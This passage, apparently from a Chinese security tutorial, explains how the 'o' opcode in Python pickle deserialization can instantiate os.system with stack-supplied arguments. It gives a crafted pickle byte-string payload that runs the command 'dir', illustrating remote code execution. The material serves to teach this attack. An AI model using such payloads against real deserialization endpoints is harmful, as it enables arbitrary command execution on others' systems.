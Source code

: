 同理 o 指令也可以，o 指令也是可以用于实例化一个类，与它相关的函数为：

[![](assets/1705886719-e86bd103d0b20db19305976c033a03a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211401-9d0f3afa-b6cc-1.png)

[![](assets/1705886719-8a85bf02e5d7f6271ab347b4f848ae6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211405-9f36bc5e-b6cc-1.png)

> 这里同样也是控制\_\_instantiate() 函数的参数和类名，不同的是这里的类名和参数都由当前栈中弹出，因此可直接将 os.system 和 dir 一起压入栈中，经过 Pop\_mark() 后返回的就是一个 system 和 dir 的列表，随后 cls 经过 pop(0) 弹出的是先进的 system，剩下的栈即 args 就为 dir。进而触发 RCE

修改 payload 为如下：

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(cos\nsystem\nX\x03\x00\x00\x00diro0b.'
```

[![](assets/1705886719-65efcfe3b529db778adf912b0fe596cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211412-a32972e8-b6cc-1.png)

[![](assets/1705886719-164e0efaee612424696c73ad05e14dc0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211416-a5a83ea0-b6cc-1.png)
